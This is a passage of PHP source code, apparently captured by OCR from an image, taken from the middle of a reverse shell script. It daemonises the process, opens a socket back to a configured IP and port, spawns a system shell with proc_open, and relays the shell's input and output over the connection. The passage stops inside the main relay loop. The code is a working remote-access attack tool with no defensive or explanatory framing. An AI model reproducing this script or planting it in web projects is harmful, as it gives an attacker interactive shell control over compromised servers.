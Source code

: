 ```php

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
```